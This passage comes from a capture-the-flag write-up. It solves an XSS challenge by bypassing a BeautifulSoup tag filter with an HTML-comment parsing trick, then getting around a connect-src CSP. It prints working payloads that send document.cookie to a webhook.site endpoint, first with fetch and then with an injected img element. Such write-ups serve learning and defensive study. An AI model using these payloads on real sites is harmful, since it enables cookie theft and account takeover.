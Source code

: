 
The jinja autoescape is turn off in this template, so we can do XSS exploit here
freely. Now our task is just bypass the check on only allow `<s>` tag.

I found [this writeup][beautiwriteup] and found out we can use this payload and
BeautifulSoup will parse it as html comment, but jinja will parse it as valid
html tag.

```html
<!--><script>alert(1)</script>-->
```

Now we can use `<script>` tag to get the flag and send it to our webhook like
book challenge before.

```html
<!-->
<script>
  fetch("https://webhook.site/<webhook-id>/?cookie=" + document.cookie);
</script>
-->
```

We submit the note and... it fails. We check the network and console and see
this.

![CSP error](./img/beauty/beauty1.png "CSP error")

We check again in `app/templates/note.html`, there is this code in the header.


```html
<meta
    http-equiv="Content-Security-Policy"
    content="connect-src 'self';"
/>
```


There is this CSP rule that only allows connecting to its own domain. How do we
bypass this? We can just create `<img>` that request to our webhook.

```html
<!-->
<script>
  img = document.createElement("img");
  img.src = "https://webhook.site/<webhook-id>/?cookie=" + document.cookie;
  document.body.appendChild(img);
</script>
-->
```


[prevwriteup]: /blog/l3akctf-2024-writeup/
[tscctf]: https://ctftime.org/event/2598
[ctftag]: /blog/tag/ctf/
[domclob]: https://portswigger.net/web-security/dom-based/dom-clobbering
[clobpayload]: https://domclob.xyz/domc_markups/list
[webhooksite]: https://webhook.site
[beautiwriteup]: https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/crocodilu